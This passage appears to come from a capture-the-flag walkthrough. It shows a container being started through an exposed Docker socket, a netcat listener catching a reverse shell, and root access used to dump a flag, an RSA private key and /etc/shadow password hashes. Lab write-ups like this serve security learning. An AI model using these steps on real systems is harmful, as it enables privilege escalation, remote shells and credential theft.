 (4) Start the container - and trigger the reverse shell
```bash
application@4dae106254bf:/dev/shm$ curl -s -X POST --unix-socket /app/docker.sock "http://localhost/containers/exploit.se_root/start"
```

```bash
➜  extension nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.171] 57132
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@cbe7b6cef335:/# id
uid=0(root) gid=0(root) groups=0(root)

root@cbe7b6cef335:/# cat /root/root.txt
9bf63e789d19a7507442df8e42d41225

root@cbe7b6cef335:/# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAxhCO2ZdFzdJj6zdL/L38ZGE7OzyRCnJ4qZJyz50X7Ux9JHWT
7kZWP3uElhlwF2WbqsPoS/iUtAjV9keflS/38zfZEp1n/o7g+q8Fw+oxF0s/6fud
hA4KieW/bKnG+aeaC/lBgx5L5EGqsw+RKeBqFmCVi8ySy1SEH4vy7mZzWO4w6Egy
ywWyk1gxGBEUuq1xVT0Wvagw+AQtkTJ9jo7wEGA1kAsY0G02hbwelLSPppTx72Ei
Pyr2hb9m5pwK6ywz38+4h4dPkyijcbaR0LNNKzDaeBGD78RxbnszHUTXKO/EsQYD
qEYqbFkSMgoMylW8wbxtS1I7T+TW4+tvQzgw9QIDAQABAoIBAQCH384PqX4Cj6Vq
NHoVfcQKnMVEgu1BTHxIYCYRFUTXztQ+0cZU/L2oOTUgv3ytIFBlGpZen75rr3AQ
ztvEPa8MlDB/W6p+8EeY0b7TwvJAd6f1/V32vKcwKINkqSfOFtNQCYOOzpbjlMTk
p/Y+0ywUA9gzmnjNskIdXiWetHvG8hNBArCU2h9CdlAr2thi3j1j3DR7VBUvuwtw
6ny1422XL8xyIMg1qjLh9kFy6Ndif+GmnzuoQW4a18lDflIZQC+03MPRaZUuUbVE
pTIDztWjs1+YeVoGPq4nzy+1RsyrxCdA+0+0j6ZK6/++vJPsm+V1/xaModV+XRyg
TjsQ0MJBAoGBAOnZ7qtDS/3qSXV6e+kzYcJUTF1d18gXaKfrEm3y09eKJ9mnApTf
fW99PlP+wK+eLUbsdxz9xiBxGGuxB+XYclDLIkoIn2308ruBptYMz7LYkcaypsCB
XEdi5bY8PlkXICXVhLaFNACydFf0Ve8cj4XG2t1WcBhKbVgCvIKbrzhxAoGBANjS
7TmGIIdZarvx4icPboemviW6wbXYY79jGFA+zvQ6DFt3cNoLYKpFfzZoaOXrJyix
ocFijM0Jc+BX0c13bhCgnjxnZ2/IV3ggeEjKVeuV5wx1+TzdjpR0EAbvWUjd2Q41
xSL6kSRI+Po/6Tn9GuzWidMrygWMNT1JhEVVbuLFAoGALDI1+0QyvoBi9cL6XC6L
0VBhRlwQBg72hpXU29bC1r+TnH0F7eD3MfT3rKQ/AnHgmMDkGiSUJ1l4hhHlLjlk
EYTyrA9JIlzi6zEruNSfBGwN0QG+pi9Mo2k7hN+J4QiP2NaryFsQYvlXJ7BT9Wbu
cRgOETre4JhgZfvOaNjHmuECgYBnW70cA9Uz0CsyJq8g4ZlV7uWLxMgcsGd0T3/C
mP48rANCAuD4AB53bKOkwwbmOz+yhWLPdfQatZvYYOSxZnJAWOC1eLF1NvKDYC8W
u+VTZWT7qq1CF3elSuJs++H6+05CGN29u+Y+fs65NIgwTXhtWCPhV2l5VYn3ijkU
eBJg5QKBgQChntZ26dV5zBuH+sUBFDD38ATjMKWwKBy4EhogrPP1WPODi7MfPlSW
9Pp/C6+rAd91VPcGo6TJD15CDhzTfzffHnjZJ0Nb6HDRL7mw6oimwVTLJttUk8GV
QGGCfL85CcYSjPpqQp8ZOml4k/SaSzDUhb06PCuFi+i4afyuQyHAzw==
-----END RSA PRIVATE KEY-----

root@cbe7b6cef335:/# cat /etc/shadow
root:$6$XJ0deONw$c1ag/76NHYRVSxMwMeoYPUDsxZDdjC6sX5KKa.QUHi2mjIwN1NlLyRt3QS3E6JjPknuSSOyIUcTTq2SbIXZle/:19157:0:99999:7:::
jean:$6$2ct8z568$.FX4a9sSYGk0QxQiqfiMFIRu.oGdRvGcFgtOz3Hu9bV2i6/Z.IpWlZxZn5iySUJuq9Rqw6oS8yTSFxbAZ4ede.:19156:0:99999:7:::
charlie:$6$Ai.uOoSz$8QB.fXSM7pS2DDpUNBR3Xr3v3MUqlWdSmwEtOjOaRpH73UxGrcxJ/hPkM7h.MfFHM2gzoyHL0.c7s/glcc0Fu.:18995:0:99999:7:::
```
